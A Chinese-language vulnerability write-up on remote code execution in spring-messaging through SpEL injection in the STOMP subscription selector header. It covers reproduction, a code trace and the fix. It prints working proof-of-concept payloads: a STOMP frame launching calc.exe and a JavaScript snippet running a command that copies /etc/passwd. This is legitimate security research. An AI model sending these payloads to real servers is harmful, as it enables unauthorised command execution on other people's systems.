# spring-messaging 远程代码执行漏洞分析

## spEL表达式注入

好久没碰这个玩意儿了有点忘记了

特征代码是

```java
SpelExpressionParser parser = new SpelExpressionParser();
Expression expression = parser.parseExpression(input);
return expression.getValue().toString();
```


## 环境搭建

地址：https://github.com/spring-guides/gs-messaging-stomp-websocket/tree/6958af0b02bf05282673826b73cd7a85e84c12d3

之后导入complete目录即可运行

## 漏洞复现

首先点击connect，直到看到一个带SUBSCRIBE的包

改为

```
["SUBSCRIBE\nid:sub-0\ndestination:/topic/greetings\nselector:new java.lang.ProcessBuilder('calc.exe').start()  \n\n\u0000"]
```

回到页面，随便输入内容，点击send，弹出计算器

## 分析

### Spring WebSocket和STOMP协议

websocket只定义了文字和字节俩种形式的消息格式，没有像http协议那样子有那么丰富的协议规范，websocket之所以没有自己定义那么多的协议格式，是希望有框架自己来实现定义这些格式，我们称之为websocket的子协议，sub-protocol。

STOMP(Streaming Text Orientated Message Protocol)，是流文本定向消息协议，是一种为MOM(Message Oriented Middleware，面向消息的中间件)设计的简单文本协议。Spring Websocket利用STOMP作为websocket的子协议，原因是stomp可以提供一种类似springmvc的编码方式，可以利用注解进行接收和发送消息以及和springmvc进行无缝的结合。

STOMP协议的帧以commnand字符串开始，以EOL结束，常用的commnand有：CONNECT、CONNECTED、SEND、SUBSRIBE、UNSUBSRIBE、BEGIN、COMMIT、ABORT、ACK、NACK、DISCONNECT。其中SUBSCRIBE为订阅消息以及注册订阅的目的地，SEND为发送消息。

Spring WebSocket使用STOMP协议进行推送，其核心思想就是订阅(subscribe)，允许客户端订阅消息，使用selector过滤消息。

示例代码：

```javascript
selector = 'T(java.lang.Runtime).getRuntime().exec("cp /etc/passwd /tmp")'  
stompClient = Stomp.client('ws://localhost:8080/hello')  
stompClient.connect({}, function(frame) {  
    stompClient.subscribe('/topic/greetings', function() {}, {  
        "selector": selector  
    })  
});  
```

当订阅时，Spring会储存这个selector，并在客户端收到消息的时候触发。

我们搭建的测试环境的demo中，app.js运行在客户端与服务器做WebSocket交互，使用connect()方法建立Stomp连接，所以在漏洞利用方法1中，我们更改app.js中connect()中的代码，增加了一个带有header头部，指定了一个带有payload的selector，最终payload被执行。

### 跟踪分析

当发送SUBSRIBE消息时调用`DefaultSubscriptionRegistry`类中的`addSubscriptionInternal`方法，其中调用了`this.expressionParser.parseExpression`



this.expressionParser是类刚开始定义的为’new SpelExpressionParser()’，即spel表达式

可以看见这里首先从header当中获取了selector



当selector不为空时即解析spel表达式

之后将解析后的表达式传入DefaultSubscriptionRegistry类的addSubscription方法，这里根据sessionid生成info，跟进addSubscription方法，主要根据消息中的目的地址destination生成subs，然后将表达式和订阅消息的id保存到subs中


同时调用了DefaultSubscriptionRegistry类的Subscription内部类的构造函数，将表达式和订阅消息的id赋值给成员变量





到这里connect部分也就结束了

当随便输入内容后点击send以后

跟踪`SimpleBrokerMessageHandler#sendMessageToSubscribers`

跟入`findSubscriptions`



由于DefaultSubscriptionRegistry没有findSubscriptions调用父类AbstractSubscriptionRegistry类的findSubscriptions()方法，然后进入DefaultSubscriptionRegistry类的findSubscriptionsInternal()方法

继续跟入DefaultSubscriptionRegistry的filterSubscriptions方法，这里遍历allMatches中的sessionId，然后根据sessionId取得对应的subId和info，然后调用getSubscription函数取得对应的sub



可以看到在最后，执行了关键代码`expression.getValue(context,Boolean.class)`，触发了payload，执行了spel表达式



## 如何修复

也就是修复SpEl表达式注入的问题，将`StandardEvaluationContext`改为`SimpleEvaluationContext`

见https://www.jianshu.com/p/04bc9f482b43

原来是在DefaultSubscriptionRegistry#filterSubscriptions中有

官方也确实如我所说的这样进行修复

## 参考链接

https://zhuanlan.zhihu.com/p/37269602

我的稍微详细点，仅仅对于自己看